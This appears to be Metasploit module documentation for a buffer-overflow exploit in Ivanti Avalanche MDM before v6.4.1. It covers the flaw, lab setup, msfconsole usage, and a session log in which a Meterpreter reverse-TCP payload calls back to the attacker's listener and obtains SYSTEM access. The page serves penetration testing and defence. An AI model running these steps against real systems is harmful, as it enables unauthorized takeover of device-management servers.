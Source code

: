 ## Vulnerable Application

Ivanti Avalanche powered by Wavelink is a mobile device management system. Network security
features allow you to manage wireless settings (including encryption and authentication),
and apply those settings on a schedule throughout the network. Software distribution features
allow you to schedule software distribution to specific devices from the Avalanche Console.
Avalanche also provides tools for managing alerts and reports.

This module exploits a buffer overflow condition in Ivanti Avalanche MDM versions before `v6.4.1`.
An attacker can send a specially crafted message to the Wavelink Avalanche Manager,
which could result in arbitrary code execution with the `NT/AUTHORITY SYSTEM` permissions.
This vulnerability occurs during the processing of 3/5/8/100/101/102 item data types.
The program tries to copy the item data using `qmemcopy` to a fixed size data buffer on stack.
Upon successful exploitation the attacker gains full access to the target system.

The original analysis and the vulnerability discovery is done by the Tenable.
Check [here](https://www.tenable.com/security/research/tra-2023-27) for public advisory.

## Installation
For installing the vulnerable version follow the steps below,
1. To obtain the vulnerable versions of the MDM setup, first create a customer account at
[Ivanti](https://success.ivanti.com/customers/Community_RegStep1_Page?lp=register) (trial license is sufficient)
2. Navigate [here](https://www.wavelink.com/Download-Avalanche_Mobile-Device-Management-Software/)
and download any version **below** `v6.4.1`
3. Follow the installation steps.

After these steps, the MDM service should be accessible on port 1777.

## Verification Steps

1. msfconsole
2. Do: `use exploit/windows/misc/ivanti_avalanche_mdm_bof`
3. Do: `set RHOST [IP]`
4. Do: `run`
5. You should get a session.

## Options

## Scenarios

```
msf6 > use exploit/windows/misc/ivanti_avalanche_mdm_bof
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/ivanti_avalanche_mdm_bof) > set rhosts 192.168.56.109
rhosts => 192.168.56.109
msf6 exploit(windows/misc/ivanti_avalanche_mdm_bof) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(windows/misc/ivanti_avalanche_mdm_bof) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] 192.168.56.109:1777 - Connecting to target...
[*] 192.168.56.109:1777 - Sending payload...
[*] Sending stage (175686 bytes) to 192.168.56.109
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.109:49967) at 2023-08-25 19:15:42 +0200

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter >

```
